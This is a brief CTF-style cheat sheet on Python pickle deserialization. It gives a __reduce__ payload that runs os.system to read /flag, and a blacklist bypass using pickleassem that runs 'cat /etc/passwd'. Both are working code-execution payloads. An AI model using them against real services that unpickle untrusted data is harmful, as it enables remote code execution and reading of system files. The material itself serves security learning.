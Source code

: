 # Pickle

### The simplest payload
```py
import pickle
import base64


class f:
    def __reduce__(self):
        import os
        return (os.system,("sleep 5 && cat /flag",))

print(f"Payload: {base64.b64encode(pickle.dumps(f()))}")
```

## Blacklist bypasses

### No R opcode

```py
# https://github.com/gousaiyang/pickleassem

import pickle
import pickletools
import base64 

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=4)
pa.push_mark()
pa.util_push('cat /etc/passwd')
pa.build_inst('os', 'system')
payload = pa.assemble()
print(base64.b64encode(payload))

```

Convert python scripts into pickle bytecode: https://github.com/splitline/Pickora

I'm a noob so that's all for now
